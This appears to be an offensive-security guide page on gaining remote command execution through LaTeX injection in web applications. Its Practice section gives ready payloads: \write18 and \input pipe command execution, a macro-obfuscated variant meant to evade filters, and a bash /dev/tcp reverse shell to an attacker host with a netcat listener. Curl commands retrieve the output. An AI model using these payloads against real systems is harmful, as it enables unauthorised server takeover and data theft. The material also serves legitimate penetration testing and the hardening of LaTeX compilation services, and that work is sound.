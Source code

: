 ```yaml
---
title: Command Execution via LaTeX Injection Techniques
description: Learn to exploit LaTeX injection for command execution in web applications.
keywords:
- LaTeX injection
- command execution
- shell-escape
- reverse shell
- "\write18"
---
```


# Command Execution

## Context

The aim of this guide is to equip offensive security operators with the skills required to perform remote command execution through LaTeX injection vulnerabilities in web server applications. Readers are expected to understand the structure and compilation process of LaTeX documents, basic shell command syntax, general command execution contexts in server-side environments, and the fundamentals of LaTeX injection attacks.

## Theory

### LaTeX Shell-Escape Mechanism

The LaTeX primitive `\write18` is a powerful feature that allows the execution of shell commands during the document compilation process. For the execution of these commands, shell-escape must be enabled, usually through a `-shell-escape` flag during compilation. If unsanitized, user-controlled LaTeX input can leverage this functionality to execute arbitrary commands on the server, presenting a substantial security risk.

### Command Injection Vectors in LaTeX

Attackers can inject commands using LaTeX-specific syntax to exploit vulnerabilities. For instance, `\write18{<command>}` or its variant `\immediate\write18{<command>}` can be injected into LaTeX source to execute shell commands. Another vector is the misuse of `\input{|<command>}` to include the output of shell commands directly into the document. To evade basic input sanitation filters, attackers can obfuscate their payloads using LaTeX macros or encoding techniques.

### Reverse Shells and Data Exfiltration via LaTeX

With command execution capabilities, attackers can establish outbound connections, such as reverse shells, if the network permits such activity. The LaTeX command execution context can be exploited to encode reverse shell payloads in base64 or directly in the `\write18` syntax, allowing attackers to interactively control the compromised host.

### Detection and Exploitation Preconditions

Successful exploitation of these vulnerabilities requires that the target LaTeX service is configured to compile user-supplied documents with shell-escape enabled. Additionally, the malicious LaTeX must pass through any input sanitization process to reach the compilation stage.

## Practice

### Direct Command Execution via \write18

- **Payload**
  ```latex
  \immediate\write18{id > /tmp/latex_rce.txt}
  ```
  This exploits the `\write18` command to execute `id` and write its output to `/tmp/latex_rce.txt`.
  
- **Trigger and Output Retrieval**
  - Ensure the target server processes and compiles the injected document using LaTeX.
  - Use the following command to retrieve output:
    ```bash
    curl http://<target>/files/latex_rce.txt
    ```

Expected Outcome: Successful execution of arbitrary shell commands on the LaTeX server.

### Command Execution via \input Pipe Syntax

- **Payload**
  ```latex
  \input|ls / > /tmp/latex_ls.txt|
  ```
  The command `ls /` is executed, and its output is written to the specified file.
  
- **Trigger and Output Retrieval**
  - Compile the document containing the injected LaTeX on the server.
  - Retrieve the command output using:
    ```bash
    curl http://<target>/files/latex_ls.txt
    ```

Expected Outcome: Execution of shell commands using LaTeX pipe syntax.

### Reverse Shell via \write18

- **Payload**
  ```latex
  \immediate\write18{bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'}
  ```
  This command initiates a reverse shell directed at the attacker's IP and port.
  
- **Preparation and Exploitation**
  - Start a listener on the attacker's machine:
    ```bash
    nc -lvnp <attacker_port>
    ```
  - Compile the malicious LaTeX file on the target, enabling the reverse shell connection.

Expected Outcome: The attacker gains interactive shell access to the compromised server for further exploitation.

### Obfuscated Payload to Bypass Filters

- **Payload**
  ```latex
  \def\x{\immediate\write18{whoami > /tmp/obf.txt}}\x
  ```
  This payload uses a macro to bypass pattern matching defenses.
  
- **Execution and Retrieval**
  - Ensure document compilation on the target server.
  - Retrieve output by accessing:
    ```bash
    curl http://<target>/files/obf.txt
    ```

Expected Outcome: Execution of commands in spite of basic input filtering, highlighting the need for effective sanitization strategies.

## Tools

- **curl**
- **netcat**